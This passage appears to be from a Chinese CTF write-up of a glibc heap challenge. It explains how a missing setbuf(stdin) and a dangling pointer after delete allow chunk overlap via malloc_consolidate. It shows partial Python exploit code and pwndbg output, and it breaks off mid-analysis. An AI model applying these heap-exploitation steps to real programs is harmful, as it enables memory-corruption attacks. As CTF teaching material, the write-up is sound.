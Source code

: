 ```c
	       few cycles, but don't abort.  */
	  }

	if (tcache->counts[tc_idx] < mp_.tcache_count)
	  {
	    tcache_put (p, tc_idx);
	    return;
	  }
      }
  }
#endif
```

题目就只有`add`和`dele`功能，`dele`没清空指针，但是由于有这个`check`在，有点难受，而且只能`add`18次,想了很久很久，在快结束的前几个小时试了下功能3就是退出那个函数，发现报错了（堆块重叠了导致报错），报的是`malloc_consolidate`的错，瞬间觉得有希望了，原因是

```c
void init_()
{
  void *ptr; // ST08_8

  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
  alarm(0x1Eu);
  ptr = malloc(0x1000uLL);
  printf("good present for African friends:0x%x\n", (unsigned int)(((unsigned __int16)ptr & 0xFF00) >> 8));
  free(ptr);
}
```

这里开始的初始话没有`setbuf(stdin,0)`，于是乎在`getchar`的时候会再堆上申请一个`0x1000`大小的缓冲区，这样就不用浪费`add`的次数去申请一个大堆块，再配合题目的`dele`函数，就可以在限定次数下完成利用

先是

```python
	for i in range(8):
		add(0x78,"\x00"*0x78)
	for i in range(7):
		dele(i)
	dele(7)	#fastbin
	cmd(3)
	p.recvuntil("sure?")
	p.send("0")
```

这样`chunk7`被`malloc_consolidate`合并，然后在`add(0x68,"\x00"*0x68)	`一下，以防释放那个缓冲区的时候和`top_chunk`合并

```c
wndbg> telescope 0x5625febf8060 18
00:0000│   0x5625febf8060 —▸ 0x5625fec6a260 ◂— 0x0
01:0008│   0x5625febf8068 —▸ 0x5625fec6a2e0 —▸ 0x5625fec6a260 ◂— 0x0
02:0010│   0x5625febf8070 —▸ 0x5625fec6a360 —▸ 0x5625fec6a2e0 —▸ 0x5625fec6a260 ◂— 0x0
03:0018│   0x5625febf8078 —▸ 0x5625fec6a3e0 —▸ 0x5625fec6a360 —▸ 0x5625fec6a2e0 —▸ 0x5625fec6a260 ◂— ...
04:0020│   0x5625febf8080 —▸ 0x5625fec6a460 —▸ 0x5625fec6a3e0 —▸ 0x5625fec6a360 —▸ 0x5625fec6a2e0 ◂— ...
05:0028│   0x5625febf8088 —▸ 0x5625fec6a4e0 —▸ 0x5625fec6a460 —▸ 0x5625fec6a3e0 —▸ 0x5625fec6a360 ◂— ...
06:0030│   0x5625febf8090 —▸ 0x5625fec6a560 —▸ 0x5625fec6a4e0 —▸ 0x5625fec6a460 —▸ 0x5625fec6a3e0 ◂— ...
07:0038│   0x5625febf8098 —▸ 0x5625fec6a5e0 ◂— 0x30 /* '0' */
08:0040│   0x5625febf80a0 —▸ 0x5625fec6b5f0 ◂— 0x0
09:0048│   0x5625febf80a8 ◂— 0x0
... ↓
pwndbg> telescope 0x5625fec6a5d0
```
